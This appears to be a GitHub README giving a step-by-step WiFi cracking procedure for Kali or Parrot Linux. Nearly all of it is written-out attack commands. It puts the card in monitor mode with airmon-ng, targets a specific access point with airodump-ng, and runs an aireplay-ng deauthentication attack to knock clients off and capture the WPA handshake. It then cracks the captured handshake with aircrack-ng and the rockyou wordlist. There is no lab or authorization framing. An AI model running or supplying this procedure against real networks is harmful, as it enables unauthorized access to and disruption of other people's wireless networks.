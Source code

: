 # wifi-hacking-procedure-and-commands


Commands for wifi Hacking in Kali or Parrot os:
================
! See version of Kali

cat /etc/os-release

uname -a

! See interfaces

ip addr

iwconfig

!kill processes

sudo airmon-ng check kill

!Start monitor mode

sudo airmon-ng start wlan0

!Verify that monitor mode is used

sudo airmon-ng 

!You could also use iwconfig to check that interface is in monitor mode:

iwconfig

! Get the AP's MAC address and channel

sudo airodump-ng wlan0mon

! AP-MAC & channel - you need to select your own here:

#ESSID: 90:9A:4A:B8:F3:FB

#Channel used by AP for SSID: 2

!1st Window:

!Make sure you replace the channel number and bssid with your own

!Replace hack1 with your file name like capture1 or something 

sudo airodump-ng -w hack1 -c 2 --bssid 90:9A:4A:B8:F3:FB wlan0mon

!2nd Window - deauth attack

!Make sure you replace the bssid with your own

#sudo aireplay-ng --deauth 0 -a 90:9A:4A:B8:F3:FB wlan0mon

!Use Wireshark to open hack file

#wireshark hack1-01.cap

!Filter Wireshark messages for EAPOL

eapol

!Stop monitor mode

#airmon-ng stop wlan0mon

!Crack file with Rock you or another wordlist

!Make sure you have rockyou in text format (unzip file on Kali)

!Replace hack1-01.cap with your file name

#aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt 
